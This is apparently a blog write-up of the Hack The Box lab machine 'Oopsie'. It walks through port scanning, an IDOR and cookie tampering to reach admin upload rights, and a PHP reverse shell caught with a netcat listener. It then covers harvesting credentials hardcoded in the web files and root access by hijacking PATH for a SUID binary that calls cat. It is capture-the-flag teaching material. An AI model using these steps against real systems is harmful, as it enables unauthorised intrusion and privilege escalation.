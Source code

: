 ```yaml
---
layout: post
title: 'HTB | Oopsie'
permalink: /htb/starting-point/oopsie/
---
```


# Enumeration

The nmap will show us:
{% highlight plain %}
Starting Nmap 7.92 ( https://nmap.org ) at 2022-03-05 16:47 EST
Nmap scan report for 10.129.111.155
Host is up (0.048s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.95 seconds
{% endhighlight %}

If we search the ip in the Firefox we can access to a webpage:
<img src="https://raw.githubusercontent.com/zeropio/zeropio.github.io/main/_posts/ctf/htb/starting-point/img/Screenshot_3.jpg" weight="100%" />

Now we can crawl the page with **ZAP**, we will find a login page:
<img src="https://raw.githubusercontent.com/zeropio/zeropio.github.io/main/_posts/ctf/htb/starting-point/img/Screenshot_4.jpg" weight="100%" />

---

# Foothold

Now we have access to the login page:
<img src="https://raw.githubusercontent.com/zeropio/zeropio.github.io/main/_posts/ctf/htb/starting-point/img/Screenshot_6.jpg" weight="100%" />

We can see we need super admin privilages to get access to the super admin account:
<img src="https://raw.githubusercontent.com/zeropio/zeropio.github.io/main/_posts/ctf/htb/starting-point/img/Screenshot_7.jpg" weight="100%" />

We can see the **id=2**.:
<img src="https://raw.githubusercontent.com/zeropio/zeropio.github.io/main/_posts/ctf/htb/starting-point/img/Screenshot_8.jpg" weight="100%" />

If we change to 1:
<img src="https://raw.githubusercontent.com/zeropio/zeropio.github.io/main/_posts/ctf/htb/starting-point/img/Screenshot_9.jpg" weight="100%" />

Now we can use those credentials to change the cookies:
<img src="https://raw.githubusercontent.com/zeropio/zeropio.github.io/main/_posts/ctf/htb/starting-point/img/Screenshot_10.jpg" weight="100%" />

We will upload a reverse shell in php and use gobuster to find where it is uploaded:
{% highlight bash %}
> gobuster dir -u http://10.129.95.191/ -w /usr/share/wordlists/directory-list-2.3-small.txt -x php 

/uploads              (Status: 301) [Size: 316] [--> http://10.129.95.191/uploads/]
{% endhighlight %}

We will open a netcat and execute the reverse shell through the browser:
{% highlight bash %}
> sudo nc -lvvp 1234
{% endhighlight %}

Now we have access to the system and to the user flag:
{% highlight bash %}
> cat /home/robert/user.txt
{% endhighlight %}

We can import a python module to get a better shell:
{% highlight bash %}
> python3 -c 'import pty;pty.spawn("/bin/bash")'
{% endhighlight %}

---

# Privilege Escalation

Inside we can search in the Apache server and find the password:
{% highlight bash %}
www-data@oopsie:/var/www/html/cdn-cgi/login$ cat * | grep pass
        if($_POST["username"]==="admin" && $_POST["password"]==="MEGACORP_4dm1n!!")
{% endhighlight %}

In the **db.php** file we can get another passwords:
{% highlight bash %}
www-data@oopsie:/var/www/html/cdn-cgi/login$ cat db.php
        <?php
        $conn = mysqli_connect('localhost','robert','M3g4C0rpUs3r!','garage');
        ?>
{% endhighlight %}

We can now use that password to access robert user:
{% highlight bash %}
www-data@oopsie:/var/www/html/cdn-cgi/login$ su robert
Password: M3g4C0rpUs3r!
{% endhighlight %}

With the **id** command we can see that Robert is in the same group as bugtracker.
{% highlight bash %}
robert@oopsie:/$ id
uid=1000(robert) gid=1000(robert) groups=1000(robert),1001(bugtracker)
{% endhighlight %}

We can now search for the bugtracker group:
{% highlight bash %}
robert@oopsie:/$ find / -group bugtracker 2>/dev/null
/usr/bin/bugtracker
{% endhighlight %}

We can see that **bugtracker** is using cat. If we create a file name **cat** inside **/tmp**, replace the content by **/bin/sh** and change the PATH to **/tmp** and execute bugtracker, we get a shell with root.

##### I need to remove the file cat after getting access to root, so I can make a cat to the flags.